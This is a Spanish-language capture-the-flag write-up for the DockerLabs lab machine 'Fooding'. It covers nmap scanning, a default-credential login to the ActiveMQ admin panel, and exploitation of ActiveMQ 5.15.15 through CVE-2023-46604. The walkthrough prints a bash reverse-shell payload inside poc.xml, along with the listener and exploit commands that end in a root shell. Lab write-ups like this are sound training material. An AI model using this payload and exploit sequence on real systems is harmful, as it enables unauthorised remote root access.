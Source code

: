 # Máquina Fooding


Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

-----------------
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT      STATE SERVICE     REASON
80/tcp    open  http        syn-ack
443/tcp   open  https       syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
41031/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información sobre los servicios.

```shell
nmap -sCV -p80,443,1883,5672,8161,41031,61613,61614,61616 172.17.0.2 -oN targeted
________________________________________________
PORT      STATE SERVICE    VERSION
80/tcp    open  http       Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
443/tcp   open  ssl/http   Apache httpd 2.4.59 ((Debian))
|_http-title: DockerLabs | Plantilla gratuita Bootstrap 4.3.x
|_http-server-header: Apache/2.4.59 (Debian)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
8161/tcp  open  http       Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Error 401 Unauthorized
41031/tcp open  tcpwrapped
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_  Potentially risky methods: TRACE
61616/tcp open  apachemq   ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|_    5.15.15
```

Entramos a la web del puerto 80 y a la del puerto 443 a inspeccionarlas, no encontramos nada interesante. También hemos aplicado **Fuzzing** sobre ellas pero no he logrado encontrar nada interesante.

Le echamos un vistazo a la web que corre por el puerto **8161**

```
http://172.17.0.2:8161/index.html
```

Nos pide autenticación, probamos credenciales comunes como pueden ser:
- root:root
- guest:guest
- admin:admin

Logramos acceder con las credenciales **admin:admin**

En la web encontramos un directorio **/admin** en uno de los links. Observamos el panel de **ActiveMQ**, servicio el cual corre por el puerto **61616**, como podemos ver en el reporte de **nmap**.

![Pasted image 20240417135427](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/400ec442-9cd8-487c-b033-1b7b65c963df)

------------------
## Explotación

Tras buscar en internet, encontramos un exploit para la versión **5.15.15** -> [Exploit](https://github.com/NKeshawarz/CVE-2023-46604-RCE)
En el **exploit** tenemos que editar el archivo **poc.xml** para ejecutar el comando que queremos, en este caso la **reverse shell**.

```xml
<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/172.17.0.1/443 0&gt;&amp;1</value>
```

Este recurso lo compartiremos por el puerto **80** con **python**:

```shell
sudo python3 -m http.server 80
```

Abriremos el puerto **443** para recibir la **reverse shell**:

```shell
sudo nc -nlvp 443
```

Ejecutaremos el script, que tomará el **poc.xml** de nuestro servidor de python. Cabe recalcar que no indicamos el puerto ya que el script usa el puerto por defecto de **ActiveMQ** que es el **61616**. 

```shell
python3 CVE-2023-46604-RCE.py -i 172.17.0.2 -u http://172.17.0.1/poc.xml
```

Estamos dentro !

```shell
whoami
----------------
root
```

Y como el usuario que corre el servicio que hemos explotado es **root**, tenemos los privilegios máximos en el sistema.

------------
